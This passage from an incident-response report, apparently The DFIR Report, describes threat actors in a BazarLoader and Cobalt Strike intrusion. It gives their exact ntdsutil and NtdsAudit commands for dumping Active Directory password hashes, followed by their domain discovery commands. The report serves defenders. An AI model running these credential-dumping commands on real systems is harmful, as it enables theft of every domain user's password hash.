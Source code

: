 The threat actors created a full backup of the active directory in “IFM” media mode and dumped the password hashes along with the corresponding users.



```
ntdsutil "ac in ntds" "ifm" "create full c:\windows\temp\crashpad\x" q q 

```

They also employed the NtdsAudit tool immediately after using NTDSutil to dump the password hashes of all domain users. NtdsAudit requires the “ntds.dit” database file and SYSTEM registry file for extracting the password hashes and usernames. After providing these as arguments, they exported the password hashes in a file that they named “pwdump.txt” and the user details in a csv file called “users.csv”. After obtaining the password hashes, the threat actors can crack the passwords hashes using a program such as hashcat.



```
ntdsAudit.exe ntds.dit -s SYSTEM -p pwddump.txt -u users.csv
```

### Discovery


A few minutes after the initial execution, BazarLoader ran some discovery tasks using the built in Microsoft net and nltest utilities and transferred the results over the C2 channel.



```
net view /all  
net view /all /domain  
nltest /domain_trusts /all_trusts  
net localgroup "administrator" (comment: command mistyped)  
net group "domain admins" /dom 

```

Later on, hands-on operators carried out some additional network and domain reconnaissance from the Cobalt Strike beacon. Again, built in utilities were favored, with the exception of what we assess was a fat finger or miss-paste by the threat actor entering a command they meant to execute in their Cobalt Strike console into the windows command terminal.



```
ipconfig /all  
nltest /dclist  
net group "Domain Admins" /dom 
tasklist 
av\_query (comment: Not a valid command) 
net localgroup Administrateurs (comment: French translation of the named group administrators) 
net localgroup Administrators 
SYSTEMINFO 
```

[![enter image description here](https://thedfirreport.com/wp-content/uploads/2021/09/Initial_discovery_cmds.png "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/09/Initial_discovery_cmds.png)
